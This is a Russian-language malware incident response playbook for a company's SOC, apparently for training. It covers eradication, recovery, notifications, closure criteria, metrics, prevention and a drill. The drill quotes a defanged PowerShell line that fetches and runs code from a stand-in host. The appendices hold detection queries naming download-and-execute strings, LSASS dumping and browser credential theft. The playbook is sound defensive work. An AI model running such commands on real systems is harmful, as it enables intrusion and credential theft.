**Инструменты анализа (для обучения):** Volatility 3 (`windows.pstree`, `windows.cmdline`, `windows.netscan`, `windows.malfind`); утилиты Эрика Циммермана (PECmd, AmcacheParser, AppCompatCacheParser, MFTECmd, EvtxECmd, RECmd); Hayabusa / Chainsaw с правилами Sigma; YARA, capa, FLOSS для образца.

Готовые запросы собраны в [Приложении В](#приложение-в-примеры-запросов-и-команд).

## 9. Устранение

**Переустановка из эталонного образа обязательна**, если выполняется хотя бы одно:

- код выполнялся, а семейство однозначно не определено;
- найдено закрепление (Run, задачи, службы, WMI, драйверы) или внедрение в процессы;
- ВПО работало с правами администратора/SYSTEM или отключало защиту;
- это инфостилер, RAT, загрузчик, второй этап или инструменты пост-эксплуатации;
- хост «особый»;
- есть любые сомнения.

**Чистка без переустановки** допустима только для веток A и F (PUA/adware, известный майнер без закрепления вне профиля), если цепочка понятна полностью. Решает L2. Через 24 ч повторно проверьте Autoruns и EDR.

**Порядок:**

- [ ] L2 подтвердил в тикете: память, триаж-пакет и образец собраны. IM с юристом решили, нужен ли полный образ диска
- [ ] ИТ выдал подменный ноутбук с новыми учётными данными
- [ ] ОС переустановлена физически или в изолированном сегменте; при необходимости диск хранится как улика
- [ ] Закрепление проверено и удалено на **всех** найденных хостах; политики и исключения АВ проверены на хосте и на сервере управления
- [ ] Вектор закрыт по фактической причине: блок отправителя/домена и типа вложения на шлюзе; блок категории или домена-источника на NGFW/DNS; обновлены ОС, браузер, офис при эксплуатации уязвимости; отозваны локальные права администратора; правило ASR/AppLocker/WDAC на запуск из `%AppData%`, `%Temp%`, `Downloads`; удалено неразрешённое RMM
- [ ] Вектор массовый, значит выполнен PB-01 (удаление писем) и отправлено сообщение сотрудникам через IM/PR

## 10. Восстановление и мониторинг

**Восстановление:**

- [ ] Данные пользователя восстановлены только как документы из резервной копии или облака, с проверкой АВ/EDR. **Не перенесены** `AppData`, исполняемые файлы, профили браузеров, расширения. Облачный диск пользователя проверен на исходный хеш: синхронизация может вернуть файл
- [ ] Агент EDR/АВ установлен, в нужной политике, виден в консоли, телеметрия идёт; tamper protection включена; исключений нет; у пользователя нет локальных прав администратора
- [ ] Хост возвращён в рабочую сеть, изоляция снята: при P3 решает L2, при P2 и выше IM. Только после переустановки или подтверждённой чистки
- [ ] Пользователь вошёл с новыми учётными данными, MFA перерегистрирована при необходимости

**Усиленное наблюдение не меньше 14 дней** (IR-план; для P1 учебный ориентир 30 дней):

| Что мониторить | Как | Срок |
| --- | --- | --- |
| IOC инцидента (хеши, домены, IP, URL, имена задач и служб, командные строки) | Правила SIEM с высоким приоритетом по всем хостам | 14 дней в режиме тревоги, затем 90 дней в поиске |
| Учётки пользователя и всех, кто входил на хост | Входы с новых IP, стран, ASN, устройств; новые MFA-методы, правила пересылки | 14 дней |
| Восстановленный хост | Новые элементы автозапуска, LOLBins с URL, отключение защиты, связь с новыми доменами | 14 дней; ручные проверки через 24 ч и через 7 дней |
| Сервисы из списка паролей браузера | Входы в админку сайта, кабинеты маркетплейсов, платёжного агрегатора; следят владельцы систем | 14 дней |
| Внешние источники | Сервис мониторинга утечек учётных данных (логи стилеров с доменом компании) | 30–90 дней |
| Повторное заражение | Тот же вектор у других сотрудников (письмо, сайт, тип вложения) | 30 дней |

## 11. Коммуникации и уведомления

**Правило канала:** инцидент обсуждайте в тикете и чате инцидента; с пользователем только по телефону. При подозрении на компрометацию почты пользователя или домена используйте резервный канал из IR-плана.

### 11.1. Внутри компании

| Условие | Кого | Когда | Кто сообщает | Канал |
| --- | --- | --- | --- | --- |
| P3 | Дежурный L2 | Сразу после триажа | L1 | Тикет + звонок ночью |
| P2 | IM | ≤ 15 мин после присвоения | L2 | Звонок |
| P1 | IM, директор, юрист/DPO | ≤ 15 мин | L2 → IM | Звонок, резервный канал |
| Изоляция хоста | Пользователь, его руководитель | Сразу после изоляции | L2 / ИТ | Телефон |
| Переустановка, подменный ноутбук | ИТ / Service Desk (не принимать от пользователя заявки «почините» в обход ИБ) | При решении | L2 | Тикет |
| Обоснованное подозрение на ПДн | Юрист/DPO; время уведомления в тикет | Сразу | IM | Звонок |
| Украдены доступы к системе | Владелец системы (сайт, 1С, маркетплейсы) | Сразу после выявления | IM | Звонок |
| Банк-клиент | Бухгалтерия, банк | Немедленно | IM / главбух | Телефон |
| Массовый вектор (больше 3 хостов, одно письмо или сайт) | Сотрудники | По решению IM | PR / IM | Рассылка без технических деталей |
| Статусы руководству | Директор | P1 каждые 2 ч, P2 дважды в день | IM | Формат IR-плана |

### 11.2. Вне компании

«Альфа-Трейд» оператор ПДн, но не субъект КИИ: 187-ФЗ и сроки НКЦКИ 3/24 ч к ней не применяются.

- **Роскомнадзор.** При неправомерной передаче ПДн: первичное уведомление в течение **24 часов** с момента выявления и результаты внутреннего расследования в течение **72 часов** (152-ФЗ, ст. 21 ч. 3.1). Момент «выявления» определяет юрист/DPO. Поэтому уведомляйте DPO при подозрении, а не после завершения форензики.
- **ГосСОПКА.** Взаимодействие операторов ПДн с ГосСОПКА (ст. 19 152-ФЗ, приказ ФСБ).
- **Штрафы.** Неуведомление РКН это самостоятельное нарушение; размеры штрафов по ст. 13.11 КоАП (поправки 2024–2025 гг.).
- **Полиция** (ст. 272, 273 УК РФ): по решению руководства с юристом; улики с цепочкой хранения сохраните до переустановки.

### 11.3. Шаблоны

**Шаблон 1. Звонок пользователю.**
> «Здравствуйте, это служба ИБ. На вашем компьютере сработала защита, мы временно отключили его от сети. Пожалуйста, не выключайте и не перезагружайте его, ничего не удаляйте и не вводите на нём пароли. Подскажите: что вы открывали или устанавливали сегодня около <время>? Откуда пришёл файл: письмо, сайт, мессенджер, флешка? Не вставляли ли вы команду с сайта в окно "Выполнить"? Какие сервисы сохранены у вас в браузере: админка сайта, банк, кабинеты? С вами свяжется ИТ насчёт подменного ноутбука. Пароли личных сервисов, которые вы вводили на этом ПК, смените с другого устройства».

**Шаблон 2. Короткий статус IM.**
> «INC-2026-___, P_. Хост ___ (отдел ___), ВПО ___ (класс), вектор ___. Сделано: изоляция ___ UTC, сессии отозваны ___, улики собраны. Масштаб: ___ хостов. ПДн: не затронуты / под оценкой DPO с ___ UTC. Дальше: ___. Нужны решения: ___».

**Шаблон 3. Рассылка сотрудникам (массовый вектор).**
> «Коллеги, сегодня приходят письма / встречаются сайты с <признак>. Не открывайте вложения и не вставляйте команды из браузера в окно "Выполнить". Если уже открыли, не выключайте компьютер и позвоните в ИБ по номеру ___».

## 12. Критерии закрытия

**Закрыть как TP (ветки A–H) можно, когда отмечены все пункты:**

- [ ] Установлено, что выполнилось и что сделало ВПО, или записано, что код не выполнялся, с указанием источника данных
- [ ] Вектор проникновения установлен, **или** IM решил закрыть с пометкой «вектор не установлен», гипотезами и компенсирующими мерами
- [ ] Скоупинг по осям (файл, сеть, DNS, почта, пользователь, хост, поведение) за 30 дней и больше выполнен; запросы и результаты в тикете
- [ ] Других заражённых хостов нет, или они обработаны отдельными тикетами
- [ ] Учётные данные по ветке сменены, сессии и токены отозваны, MFA и правила почты проверены; список внешних сервисов передан владельцам и закрыт
- [ ] Хост переустановлен (или очищен по критериям раздела 9), агенты онлайн, исключений АВ нет
- [ ] Изоляция снята с утверждения L2 (P3) или IM (P2+)
- [ ] IOC в блок-листах и в правилах SIEM на 14 дней и больше
- [ ] Вопрос ПДн закрыт заключением DPO, если открывался; уведомления отправлены, время зафиксировано
- [ ] Улики сохранены с цепочкой хранения, срок хранения определён
- [ ] Пользователь работает на чистом устройстве
- [ ] P1/P2: разбор назначен (≤ 5 рабочих дней). P3: записан вывод «что улучшить в детекте». Задачи на улучшения заведены
- [ ] Закрыл L2 (P3–P4) или IM (P1–P2)

**Закрыть как FP можно, когда отмечены все пункты:**

- [ ] Обоснование записано в тикет: подпись, известное ПО с документированным поведением, заявка ИТ или EICAR
- [ ] Исключение (если нужно) утвердил L2, не L1
- [ ] Записано предложение по тюнингу правила или объяснено, почему оно не нужно

## 13. Метрики

| Метрика | Как считать | Ориентир (учебный) |
| --- | --- | --- |
| MTTD (среднее время обнаружения) | От первого появления ВПО на хосте (по `$MFT` / EDR) до сработки | Снижение квартал к кварталу |
| MTTA (среднее время до начала работы) | От сработки до начала работы аналитика | В пределах «реакции до» IR-плана |
| MTTC (среднее время сдерживания) | От подтверждения до изоляции | P2 ≤ 15 мин, P3 ≤ 1 ч |
| MTTR (среднее время восстановления) | От обнаружения до возврата пользователя на чистое устройство | P3 ≤ 2 рабочих дня |
| Время до отзыва сессий | От подозрения на кражу учётных данных до отзыва токенов | ≤ 1 ч |
| Dwell time (время присутствия) | От первого появления до сдерживания | — |
| Доля сработок, где вопрос «выполнялся ли» решён с источником | Тикеты с заполненным полем / все TP | 100 % |
| Доля FP по правилам PB-04 | FP / все сработки правила | Повод для тюнинга при > 50 % |
| Повторное заражение | Тот же хост или вектор в течение 30 дней | 0 |
| Доля хостов, прошедших переустановку при подтверждённом запуске | — | ≥ 90 % |
| Хосты без агента EDR и молчащие агенты | Еженедельный отчёт | 0 |

## 14. Типичные ошибки

| Ошибка | Чем опасна | Как правильно |
| --- | --- | --- |
| Закрыть «антивирус удалил» | Пропущены вторая стадия, стилер, закрепление | Ответьте на вопрос «выполнялся ли» с источником |
| «Хеш неизвестен в TI, значит чисто» | Загрузчики уникальны под жертву | Решайте по поведению |
| Загрузить файл в VirusTotal | Утечка данных из документа-приманки; атакующий видит, что его нашли | Только поиск по хешу; файл во внутреннюю песочницу с разрешения L2 |
| Сменить пароль с заражённого ПК или до изоляции | Новый пароль уходит стилеру или кейлоггеру; атакующий предупреждён | После изоляции, с чистого устройства, через ИТ |
| Сменить только доменный пароль | Украденные cookie и пароли из браузера продолжают работать | Отзыв сессий + список сервисов из браузера + LAPS + VPN |
| Ждать P2 для дампа памяти | Процесс завершится, хост перезагрузят, бесфайловые стадии потеряны | Дамп при любом подтверждённом запуске до перезагрузки |
| Блок хеша до получения образца | Единственный экземпляр удалён | Сначала образец и SHA256 |
| Блок IP CDN или облака | Ломаются легитимные сервисы; атакующий сменит IP | Блокируйте домен и URL; IP CDN только с IM |
| Критерий P2 «есть связь с C2» без уточнения | DNS-запрос и заблокированное соединение не равны успешной сессии | P2 только при повторяющихся `allowed` с `bytes_out` |
| Не учитывать роль пользователя | Стилер у админа сайта обработан как P3 | Матрица 5.4: «особые» хосты не ниже P2 |
| Вход администратора на хост под доменным админом | Учётные данные попадают в память заражённого хоста | Только EDR live response или отдельная учётка |
| Переустановка до сбора улик | Вектор не установить, критерий закрытия не выполнить | L2 подтверждает сбор улик |
| Снятие изоляции до переустановки | Возобновление C2 | Переустановка → проверка агента → возврат в сеть |
| Перенос `AppData` и «Документов» без проверки | Возврат исходного ВПО | Только документы, с проверкой; облачный диск на хеш |
| Блокировать по одному при целевой атаке | Атакующий ускоряется, переходит на резервный канал | Одно окно сдерживания по команде IM |
| Изолировать при P4 | Лишний простой (бухгалтер в день зарплаты) | P4 без изоляции, если отсутствие запуска подтверждено |
| DPO не уведомлён | Пропуск 24 ч по 152-ФЗ | Уведомляйте при обоснованном подозрении |
| Не проверить исключения АВ и здоровье агента | Хост «под контролем», а телеметрии нет | Defender 5001/5007 или аналоги, `Get-MpPreference`, новые драйверы (7045, kernel) |
| Правило только «Word → PowerShell» | ClickFix, LNK/ISO, side-loading, RMM не видны | Набор правил из [Приложения Б](#приложение-б-источники-данных-и-триггеры) |

## 15. Профилактика

Выбирайте меры по фактическому вектору инцидента.

**Ограничение запуска**

- [ ] Правила ASR (если Defender) или аналоги EDR: дочерние процессы Office, исполняемое содержимое из почты, обфусцированные скрипты, кража из LSASS
- [ ] AppLocker/WDAC на `%AppData%`, `%Temp%`, `Downloads`
- [ ] Скриптовые хосты: ассоциируйте `.js`, `.jse`, `.vbs`, `.vbe`, `.wsf`, `.hta` с Блокнотом; ограничьте `mshta`, `wscript`, `cscript`
- [ ] PowerShell: Constrained Language Mode для обычных пользователей, удаление PowerShell 2.0

**ClickFix**

- [ ] Обучение: «ни один сайт не просит вставлять команды в Win+R»
- [ ] Детект по RunMRU и `explorer.exe → powershell/mshta`
- [ ] Отключение окна «Выполнить» политикой там, где оно не нужно (частичная мера)

**Учётные данные**

- [ ] LAPS; Credential Guard и LSA Protection (RunAsPPL)
- [ ] Нет локальных админов у пользователей; отдельные учётки и рабочие места для администраторов
- [ ] Запрет сохранения паролей в браузере плюс корпоративный менеджер паролей
- [ ] MFA на админку сайта, маркетплейсы, платёжный агрегатор, хостинг, DNS-регистратор

**Почта**

- [ ] Блок ISO, IMG, VHD, LNK, HTA, JS, VBS, ONE, SVG (если нет бизнес-необходимости); архивы с паролем в карантин
- [ ] Ретроспективный отзыв писем песочницей

**Сеть**

- [ ] DNS-фильтрация новых доменов и категорий malware/phishing; инспекция TLS для рискованных категорий
- [ ] Контроль приложений для RMM: разрешён только корпоративный
- [ ] Полный туннель VPN или облачный SWG для удалённых

**EDR и детект-инжиниринг**

- [ ] Блок уязвимых драйверов (Microsoft Vulnerable Driver Blocklist или функция EDR), мониторинг молчащих агентов
- [ ] Правило Sigma на цепочку из инцидента и проверка, что оно сработало бы на данных этого инцидента
- [ ] Сервис отслеживания логов стилеров с доменом компании

**Обучение**

- [ ] Обезличенный разбор кейса для подразделения

## 16. Учебная ситуация

**Вводная.** Пятница, 17:40 (UTC+3). EDR присылает сработку средней важности «Suspicious PowerShell command line» на ноутбуке PC-MKT-14. Пользователь контент-менеджер маркетинга, работает из дома через VPN с раздельным туннелированием. В браузере у неё сохранены входы в админку сайта магазина и в кабинет маркетплейса. Дерево процессов: `explorer.exe → powershell.exe -w hidden -c "iwr hxxps://cdn-check[.]example/v.txt | iex"`. EDR завершил процесс. Файла на диске нет. NGFW соединений не видит. Через 20 минут в журнале облачной почты появляется вход под её учёткой из другой страны.

**Задания:**

1. **17:45. Вы L1.** Пройдите узлы 1–3 дерева решений и запишите: статус агента, вердикт по FP, ответ «выполнялся ли код» с источником. Какой вектор наиболее вероятен, какие артефакты (RunMRU, 4104, Zone.Identifier, история браузера) вы запросите для подтверждения? Объясните в одной фразе, почему NGFW «ничего не видит».
2. **17:50 и 18:00.** Какую критичность и ветку вы присваиваете сразу по дереву (узлы 4–5) и какую после входа из другой страны (узел 6)? По RACI и таблице 11.1 запишите, кого, когда и каким каналом уведомляете на каждом шаге.
3. **18:05. Вы L2.** Запишите по шагам порядок: изоляция, сбор памяти, отзыв сессий, смена паролей. Для каждого шага укажите, кто делает по RACI и с какого устройства. Составьте список смены по ветке E из 6.2: что именно в него войдёт для этого пользователя.
4. **18:15.** Нужен ли DPO и в какой момент? Запишите, что вы фиксируете в тикете как время выявления, и как считаете сроки 24 и 72 часа по 152-ФЗ, если инцидент развивается в пятницу вечером.
5. **На разборе.** Предложите две меры из раздела 15 под этот вектор. Опишите, как вы проверите, что новое правило детекта сработало бы на данных этого инцидента: какой запрос из Приложения В (Q1, Q2) вы прогоните и за какой период.

## 17. Источники

- MITRE ATT&CK Enterprise: https://attack.mitre.org/ (номера техник сверяйте с текущей версией)
- NIST SP 800-61 Rev. 3, Incident Response Recommendations and Considerations for Cybersecurity Risk Management: https://csrc.nist.gov/pubs/sp/800/61/r3/final. Rev. 2 (Computer Security Incident Handling Guide) проще для новичка
- NIST SP 800-86, Guide to Integrating Forensic Techniques into Incident Response: https://csrc.nist.gov/pubs/sp/800/86/final
- RFC 3227, Guidelines for Evidence Collection and Archiving: https://www.rfc-editor.org/rfc/rfc3227
- CISA, Federal Government Cybersecurity Incident and Vulnerability Response Playbooks (2021): https://www.cisa.gov/
- SANS Incident Handler's Handbook: https://www.sans.org/white-papers/33901/ ; постеры SANS DFIR «Hunt Evil» и «Windows Forensic Analysis»: https://www.sans.org/posters/
- Microsoft Learn: аудит создания процессов (4688, командная строка), PowerShell Script Block Logging, Sysmon (Sysinternals): https://learn.microsoft.com/
- LOLBAS Project (злоупотребление штатными бинарниками Windows): https://lolbas-project.github.io/
- SigmaHQ (правила Sigma): https://github.com/SigmaHQ/sigma
- Документация инструментов: Velociraptor (https://docs.velociraptor.app/), KAPE (Kroll), Volatility 3 (https://volatility3.readthedocs.io/), утилиты Эрика Циммермана (https://ericzimmerman.github.io/)
- 152-ФЗ «О персональных данных»: актуальная редакция на consultant.ru / garant.ru

## Допущения и ограничения

**Что нужно сверить перед реальным применением:**

| № | Что | Где в плейбуке | Почему нужна проверка |
| --- | --- | --- | --- |
| 1 | Номер техники T1204.004 Malicious Copy and Paste (ClickFix) | Прил. А | Может отсутствовать в вашей версии ATT&CK |
| 2 | T1574.002 DLL Side-Loading | Прил. А | В ATT&CK v17 могла быть объединена с T1574.001 |
| 3 | Доступность Event ID и полей | Прил. Б, 5, 8 | Зависит от политики аудита и того, что реально собирает SIEM |
| 4 | События чтения файлов (`Login Data`, `Cookies`, `Local State`) в вашем EDR; Sysmon 11 даёт их ограниченно | Прил. Б, запрос Q5 | Не каждый EDR пишет события чтения |
| 5 | Сетевые IOC в EDR | 6.1, шаг 7 | Не каждый EDR умеет блокировать домены и IP |
| 6 | Поведение облачной почты «Альфа-Трейд» при смене пароля | 6.2 | Смена пароля сама по себе не обязательно отзывает токены |
| 7 | Извлечение названий сайтов из хранилища паролей браузера | 6.2 | Нужно основание по ЛНА |
| 8 | Изоляция при выходе хоста на связь | 6.3 | Поддерживается не каждым EDR |
| 9 | Срок хранения телеметрии EDR (7–30 дней) | 7 | Уточните у вендора |
| 10 | Совместимость WinPmem, DumpIt, Magnet RAM Capture с EDR и политикой | 7 | Инструменты снятия памяти могут конфликтовать с EDR |
| 11 | Флаги `autorunsc64.exe -accepteula -a * -c -h -s -m` | 7 | Сверьте с `autorunsc -?` вашей версии |
| 12 | Синтаксис KAPE и Velociraptor offline collector | 7 | Зависит от версии |
| 13 | Формулировки ЛНА о доступе к личным данным на рабочей станции | 7 | Уточните у юриста |
| 14 | ShimCache как доказательство запуска | 8 | На современных Windows не доказывает запуск |
| 15 | JA3/JA4 в журналах NGFW | 8 | Пишет не каждый NGFW |
| 16 | Сроки уведомления Роскомнадзора (24 и 72 часа), 152-ФЗ ст. 21 ч. 3.1 | 11.2 | Проверьте актуальную редакцию закона |
| 17 | Взаимодействие операторов ПДн с ГосСОПКА: номер приказа ФСБ, ст. 19 152-ФЗ, применимость | 11.2 | Нормативная база меняется |
| 18 | Размеры штрафов по ст. 13.11 КоАП (поправки 2024–2025 гг.) | 11.2 | Закон менялся |
| 19 | Размер Security.evtx по умолчанию и GPO для его увеличения | 3 | Зависит от политик домена |
| 20 | Номера всех техник ATT&CK | Прил. А, 17 | Сверяйте с текущей версией каталога |

**Допущения:**

- Все целевые сроки по фазам (раздел 2), стартовая критичность в таблице триггеров (Прил. Б), ориентиры метрик (раздел 13), целевое время переустановки ≤ 4 ч (раздел 3) и 30 дней наблюдения для P1 (раздел 10) учебные. Реальные значения утверждает руководитель ИБ.
- Исходная версия плейбука ссылалась на IR-план как `source/ir-plan.md`; в этом каталоге он лежит по пути `../plan/ir-plan.md`.
- Вендоры SIEM и EDR в «Альфа-Трейд» не названы. Все запросы даны как примеры на нейтральном псевдо-SPL/KQL и показывают только логику. Для MaxPatrol SIEM, KUMA и других их нужно переписать под синтаксис и поля продукта; окна времени, индексы и поля условные.
- Основной случай это Windows. Для macOS и Linux фазы те же, артефакты другие.
- «Альфа-Трейд» оператор ПДн, но не субъект КИИ, поэтому 187-ФЗ и сроки НКЦКИ не применяются.
- Время в тикете ведётся в UTC, в отчёте дублируется UTC+3.
- Отключение окна «Выполнить» против ClickFix это частичная мера, оцените влияние на работу до внедрения.

## Приложение А. MITRE ATT&CK

| Тактика | Техника | ID |
| --- | --- | --- |
| Первоначальный доступ | Phishing: Spearphishing Attachment / Link | T1566.001 / T1566.002 |
| Первоначальный доступ | Drive-by Compromise | T1189 |
| Первоначальный доступ | Replication Through Removable Media | T1091 |
| Выполнение | User Execution: Malicious Link / Malicious File | T1204.001 / T1204.002 |
| Выполнение | Malicious Copy and Paste (ClickFix) | T1204.004 |
| Выполнение | PowerShell | T1059.001 |
| Обход защиты | System Binary Proxy Execution | T1218 |
| Обход защиты | Mshta / Msiexec / Regsvr32 / Rundll32 | T1218.005 / T1218.007 / T1218.010 / T1218.011 |
| Обход защиты | DLL Side-Loading (см. также T1574.001) | T1574.002 |
| Обход защиты | Disable or Modify Tools | T1562.001 |
| Обход защиты | Mark-of-the-Web Bypass | T1553.005 |
| Закрепление | Registry Run Keys | T1547.001 |
| Закрепление | Scheduled Task | T1053.005 |
| Закрепление | Windows Service | T1543.003 |
| Закрепление | WMI Event Subscription | T1546.003 |
| Доступ к учётным данным | Credentials from Web Browsers | T1555.003 |
| Доступ к учётным данным | Steal Web Session Cookie | T1539 |
| Доступ к учётным данным | LSASS Memory | T1003.001 |
| Управление и контроль | Web Protocols | T1071.001 |
| Управление и контроль | Ingress Tool Transfer | T1105 |
| Управление и контроль | Remote Access Software | T1219 |
| Управление и контроль | Web Service | T1102 |
| Эксфильтрация | Exfiltration Over C2 Channel | T1041 |
| Эксфильтрация | Exfiltration to Cloud Storage | T1567.002 |

## Приложение Б. Источники данных и триггеры

Запросы в таблице это **примеры на нейтральном псевдо-SPL/KQL**, они показывают логику. Вендоры SIEM и EDR в «Альфа-Трейд» не названы; для MaxPatrol SIEM, KUMA и других запросы нужно переписать под их синтаксис и поля. Стартовая критичность учебная.

| Источник | Что видим | Поля / Event ID | Пример правила или запроса | Стартовая P |
| --- | --- | --- | --- | --- |
| Антивирус | Детект при записи файла в `Downloads` или вложения, действие «удалён / карантин», процесса нет | имя детекта, тип (malware / PUA / HackTool), `file_path`, `sha256`, `action`; для Defender 1116 / 1117 | `av where action in (quarantined, deleted) and path matches "\\Downloads\\|\\Outlook\\"` | P4 |
| Антивирус | Детект в `%AppData%`, `%LocalAppData%\Temp\<random>`, `%ProgramData%`, `C:\Users\Public` или в памяти; действие «не выполнено / ошибка лечения» (Defender 1118 / 1119); повтор семейства за 7 дней | то же плюс `process_name`, `parent` | `av where path matches "AppData|Temp|ProgramData|Users\\Public" or action = failed` | P3 |
| Антивирус | HackTool: Mimikatz, Rubeus, AdFind, Impacket, SharpHound | имя детекта | `av where detection_type = HackTool` | P2 |
| АВ / EDR | Отключена защита, добавлено исключение, агент остановлен или «пропал» | Defender 5001 / 5007, tamper-события EDR, `last_seen` | `edr_health where last_seen > 2h and host in active_hosts` | P2 |
| EDR / Sysmon | Офисное приложение, архиватор, браузер или `explorer.exe` запускает интерпретатор или LOLBin с подозрительной командной строкой | Sysmon 1 / Security 4688: `ParentImage`, `Image`, `CommandLine`, `User`, `Hashes` | Запрос Q1 | P3 |
| EDR / реестр | ClickFix: команда в окне Win+R | Sysmon 13: `TargetObject` содержит `\Explorer\RunMRU`, `Details` | Запрос Q2 | P3 (P2 при сетевой активности) |
| EDR / PowerShell | Загрузчик в памяти | 4104: `ScriptBlockText` с `FromBase64String`, `DownloadString`, `IEX`, `Reflection.Assembly` | `ps4104 where text has_any (...)` | P3 |
| EDR / Sysmon | Доступ к памяти LSASS | Sysmon 10: `TargetImage=lsass.exe`, `GrantedAccess`, `SourceImage` | Запрос Q4 | P2 (P1 на хосте администратора) |
| EDR | Инфостилер: не-браузер читает `Login Data`, `Cookies`, `Local State` | файловые события EDR, Sysmon 11 (ограниченно) | Запрос Q5 | P2 |
| EDR | Фреймворк пост-эксплуатации (Cobalt Strike, Sliver, Brute Ratel), разведка домена (`nltest /dclist`, `net group "domain admins" /domain`, AdFind) | детект EDR, 4688 / Sysmon 1 | `proc where cmd has_any ("nltest","domain admins","adfind")` | P2 → оценка P1, PB-02 |
| EDR / инвентаризация | Неразрешённое RMM: AnyDesk, ScreenConnect, RustDesk и др. | установка ПО, 7045, контроль приложений NGFW | `proc where name in rmm_list and name not in allowed_rmm` | P3 (P2 при входящих сессиях) |
| NGFW / прокси | Успешные соединения к C2 из TI, маячковый трафик | `src_ip`, `dst_ip`, `dst_port`, `url` / `sni`, `app`, `action`, `bytes_out` | Запрос Q6 | P3; P2 при `action=allowed` и регулярном маячковании |
| DNS | Запрос к домену из TI, DGA-подобные и свежезарегистрированные домены, пулы майнинга | `query`, `src_ip`, Sysmon 22 `QueryName` + `Image` | `dns where query in ti_domains` | P4 / P3 по контексту (только DNS без соединения не P2) |
| Почтовая песочница | Вердикт «вредоносное» по уже доставленному и открытому письму (ретроспективный) | `message_id`, получатели, вложение | — | P3, параллельно PB-01 |
| Облачная почта / WAF / админка сайта | Вход под учёткой сотрудника с чужого IP или нового устройства как следствие стилера | IP, страна, ASN, user-agent, устройство | — | P2, обратный путь в PB-04 |
| Внешние | НКЦКИ, CERT вендора, сервис мониторинга утечек (логи стилеров с доменом компании) | — | — | P2 |
| Пользователь / Service Desk | «Открыл файл, ничего не произошло», «вставил команду с сайта», «появилось окно» | — | — | P3 до проверки |

## Приложение В. Примеры запросов и команд

Адаптируйте под свою среду: окно времени, индексы и поля условные.

```text
-- Q1. Родитель-офис/браузер/explorer -> интерпретатор (псевдо-KQL)
ProcessEvents | where Time > ago(7d)
| where ParentName in~ ("winword.exe","excel.exe","outlook.exe","onenote.exe","winrar.exe","7zfm.exe",
                        "explorer.exe","chrome.exe","msedge.exe","firefox.exe","browser.exe")
| where Name in~ ("powershell.exe","pwsh.exe","cmd.exe","wscript.exe","cscript.exe","mshta.exe",
                  "rundll32.exe","regsvr32.exe","msiexec.exe","certutil.exe","bitsadmin.exe","curl.exe")
| where CommandLine has_any ("-enc","-w hidden","iex","iwr","DownloadString","FromBase64String","http")
| project Time, Host, User, ParentName, Name, CommandLine
-- explorer.exe -> powershell шумит (ярлыки, админы): без фильтра по командной строке не использовать.

-- Q2. ClickFix: что вводилось в Win+R
RegistryEvents | where Time > ago(30d)
| where Key has @"\Explorer\RunMRU"
| where Value has_any ("powershell","mshta","curl","cmd /c","http","bitsadmin")

-- Q3. Распространённость: хеш ИЛИ имя+путь (загрузчики часто уникальны под жертву)
FileEvents | where Time > ago(30d)
| where SHA256 == "<sha256>" or (FileName =~ "<name>" and FolderPath has "<dir>")
| summarize first=min(Time), last=max(Time), hosts=dcount(Host) by FileName, FolderPath, SHA256
```

```text
-- Q4. Доступ к LSASS (псевдо-SPL, Sysmon 10)
index=sysmon EventCode=10 TargetImage="*\\lsass.exe"
  NOT SourceImage IN ("*\\MsMpEng.exe","*\\<агент_EDR>.exe")
| table _time host SourceImage GrantedAccess
-- GrantedAccess 0x1010, 0x1410, 0x1FFFFF типичны для дамперов; исключения строить по своей среде.

-- Q5. Инфостилер: не-браузер трогает профиль браузера
FileEvents | where FolderPath has_any (@"\User Data\Default\Login Data", @"\Network\Cookies", @"\User Data\Local State")
| where ProcessName !in~ ("chrome.exe","msedge.exe","firefox.exe","browser.exe")

-- Q6. Маякование с хоста (грубая эвристика: CDN, апдейтеры и мессенджеры тоже регулярны)
index=ngfw src_ip=<HOST_IP> action=allowed earliest=-24h
| sort 0 _time | streamstats current=f last(_time) as prev by dest_ip
| eval delta=_time-prev
| stats count avg(delta) as avg stdev(delta) as sd sum(bytes_out) as out by dest_ip, dest_port
| where count>20 AND sd < avg*0.2
```

**Команды сбора летучих данных и автозапуска (раздел 7):**

- Процессы: `Get-CimInstance Win32_Process` (PID, PPID, CommandLine)
- Сетевые соединения: `Get-NetTCPConnection`
- DNS-кэш: `Get-DnsClientCache`
- Автозапуск: `autorunsc64.exe -accepteula -a * -c -h -s -m`
- Исключения Defender: `Get-MpPreference`
- WMI-подписки в `root\subscription`: классы `__EventFilter`, `CommandLineEventConsumer`, `__FilterToConsumerBinding`

## Приложение Г. Сокращения

| Сокращение | Расшифровка |
| --- | --- |
| АВ | Антивирус |
| AD | Active Directory: служба каталогов Windows |
| AppLocker / WDAC | Механизмы Windows для контроля запуска приложений |
| ASN | Номер автономной системы: по нему видно, чья сеть (провайдер, хостинг, облако) |
| ASR | Attack Surface Reduction: правила сокращения поверхности атаки в Defender |
| BAM | Background Activity Moderator: артефакт реестра Windows с историей запуска программ |
| C2 | Command and Control: сервер управления вредоносом |
| CDN | Сеть доставки контента: общие IP для тысяч сайтов |
| CERT | Группа реагирования на компьютерные инциденты |
| CMDB | База конфигурационных единиц: учёт хостов и их владельцев |
| CMS | Система управления содержимым сайта |
| CRM | Система управления отношениями с клиентами |
| DC | Контроллер домена |
| DCSync | Техника выгрузки хешей паролей из AD под видом репликации |
| DGA | Алгоритм генерации доменов: ВПО само создаёт имена доменов для C2 |
| DPO | Ответственный за обработку персональных данных |
| EDR | Система обнаружения и реагирования на конечных точках |
| EICAR | Безопасный тестовый файл для проверки антивируса |
| ЭП | Электронная подпись |
| FP / TP | Ложное срабатывание / подтверждённый инцидент. Benign TP: сработка верная, но вреда нет |
| ГосСОПКА | Государственная система обнаружения, предупреждения и ликвидации последствий компьютерных атак |
| GPO | Групповая политика Windows |
| HackTool | Класс детекта: инструмент атакующего, а не вредонос в классическом смысле |
| IM | Incident Manager: руководитель реагирования |
| IOC | Индикатор компрометации: домен, IP, хеш и т. п. |
| JA3 / JA4 | Отпечатки TLS-клиента по параметрам рукопожатия |
| КИИ | Критическая информационная инфраструктура |
| KQL / SPL | Языки запросов Microsoft и Splunk |
| L1 / L2 | Аналитик SOC первой / второй линии |
| LAPS | Решение Microsoft для управления паролями локальных администраторов |
| ЛНА | Локальный нормативный акт компании |
| LOLBin / LOLBAS | Штатные бинарники Windows, которыми злоупотребляют атакующие |
| LSASS | Процесс Windows, в памяти которого лежат учётные данные |
| MFA | Многофакторная аутентификация |
| MotW | Mark-of-the-Web: метка Windows «файл скачан из интернета» (Zone.Identifier) |
| MPLog | Журнал Microsoft Defender |
| MTTD / MTTA / MTTC / MTTR | Среднее время обнаружения / до начала работы / сдерживания / восстановления |
